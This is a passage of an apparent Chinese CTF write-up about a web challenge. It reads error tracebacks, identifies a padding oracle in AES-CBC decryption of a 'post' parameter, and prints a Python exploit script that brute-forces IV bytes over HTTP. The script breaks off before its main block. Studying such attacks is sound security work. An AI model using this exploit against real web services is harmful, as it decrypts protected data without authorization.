 ```
return unpad(cipher.decrypt(data))
```

报错说<font color=red>string index out of range</font>，应该是提交的<font color=red>post</font>参数长度为<strong>16</strong>字节，刚够IV，实际数据为0，所以产生了这个错误。同时注意到有一个unpad操作，看函数名其功能应该是去掉填充（pad）。
我们将<font color=red>post</font>参数改为16的倍数，再次提交得到新的报错:

```
Traceback (most recent call last):
  File "./main.py", line 69, in index
    post = json.loads(decryptLink(postCt).decode('utf8'))
  File "./common.py", line 49, in decryptLink
    return unpad(cipher.decrypt(data))
  File "./common.py", line 22, in unpad
    raise PaddingException()
PaddingException
```

这次的报错中出现了<font color=red><strong>PaddingException</strong></font>，结合CBC模式是可以使用padding oracle攻击解出明文的。有疑问可以翻看上边的原理介绍。Exploit如下：

```
import base64
import requests

def decode(data):
    return base64.b64decode(data.replace('~', '=').replace('!', '/').replace('-', '+'))

def encode(data):
    return base64.b64encode(data).decode('utf-8').replace('=', '~').replace('/', '!').replace('+', '-')

def bxor(b1, b2): # use xor for bytes
    result = b""
    for b1, b2 in zip(b1, b2):
        result += bytes([b1 ^ b2])
    return result

def test(url, data):
    r = requests.get(url+'?post={}'.format(data))
    if 'PaddingException' in r.text:
        return False
    else:
        return True

def generate_iv_list(tail):
    iv = b'\x00' * (16 - len(tail) -1)
    return [iv+bytes([change])+tail for change in range(0x00, 0xff+1)]

def padding_oracle(real_iv, url, data):
    index = 15
    plains = bytes()
    tail = bytes()
    while index >= 0:
        for iv in generate_iv_list(tail):
            if test(url, encode(iv+data)):
                plains = bytes([(16-index) ^ iv[index]]) + plains
                index -= 1
                tail = bytes([plain ^ (16-index) for plain in plains])
                break
    return bxor(real_iv, plains)

if __name__ == '__main__':
```